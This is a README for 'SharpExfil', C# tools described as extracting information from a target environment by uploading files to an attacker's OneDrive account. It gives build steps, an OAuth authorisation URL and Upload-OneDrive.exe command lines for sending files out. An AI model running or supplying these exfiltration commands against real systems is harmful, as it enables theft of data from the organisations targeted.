

# SharpExfil
C# executables to extract information from target environment using OneDrive API.

## OneDrive API instructions
you can find the steps to create OneDrive keys [here](./OneDrive_API_Key.md)

## Build Instructions

Add your OneDrive API keys to the 'API_Keys.cs' file in project.

Then build project from visual studio

## Running binary

1. Goto the url -  
	`https://login.microsoftonline.com/common/oauth2/v2.0/authorize?client_id=<Client_ID>&scope=<Scopes>&response_type=code&redirect_uri=<Redirect_URI>`  
	Replace Client_id with Application ID of the registered application.  
	Make sure redirect_uri string has the same value from registration.  

2. The new URL should contain the access_token  
	

3. Run executable with generated code token  
	`For Files smaller than 4mb:  
		Upload-OneDrive.exe -size=small -code=<Code_Token> -file=<Path_To_Upload_File>  
	For Files bigger than 4mb:  
		Upload-OneDrive.exe -size=large -code=<Code_Token> -file=<Path_To_Upload_File>`
	
	Pass all arguments in the same order